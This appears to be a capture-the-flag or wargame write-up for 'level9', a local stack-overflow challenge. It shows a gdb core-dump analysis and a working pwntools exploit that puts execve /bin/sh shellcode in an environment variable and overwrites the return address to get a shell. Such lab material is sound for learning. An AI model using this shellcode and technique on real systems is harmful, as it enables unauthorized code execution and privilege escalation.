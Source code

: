 ```bash
icyfire@razor level9 → env -i env1=AAA env2=BBBB env3=ABCDABCDABCDABCDABCDABCDABCDABCDABCD ./9
Segmentation fault (core dumped)

icyfire@razor level9 → gdb -c core
[New LWP 3599060]
Core was generated by `./9'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x43424144 in ?? ()
(gdb) x/1i $eip
=> 0x43424144:	Cannot access memory at address 0x43424144
```

Here we can see that the instruction pointer got overwritten by the value `0x43424144` which corresponds to 'DABC'. The return address is offset by 1 character and the intitial part of the environment variable which is `env3=`. So we need to offset the return address by 6 characters or 6 % 4 = 2 characters. Using methods mentioned in the previous levels we can get the address of the shellcode put in the environment using `gdb`. Once we have the address (`0xfffe5ceb`) we can construct the exploit script the following way:

```python
import os
from pwn import process
shell_code = "\x90" * 100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
env = os.environ
env['_SHELLCODE'] = shell_code
env[list(env.keys())[2]] = "\x41\x41\xeb\x5c\xfe\xff\xeb\x5c\xfe\xff\xeb\x5c\xfe\xff\xeb\x5c\xfe\xff\xeb\x5c\xfe\xff"
proc = process(executable='./9', argv=[], env=env)
proc.interactive()
```

Running the exploit script:

```bash
icyfire@razor level9 → python3 exploit.py
[+] Starting local process '/var/challenge/level9/9': pid 377772
[*] Switching to interactive mode
$ l33t
Woot! Congratulations you broke level lev10!
Adding user 'icyfire' to group 'lev10' ...
Adding user icyfire to group lev10
Done
$
[*] Stopped process '/var/challenge/level9/9' (pid 377772)
```
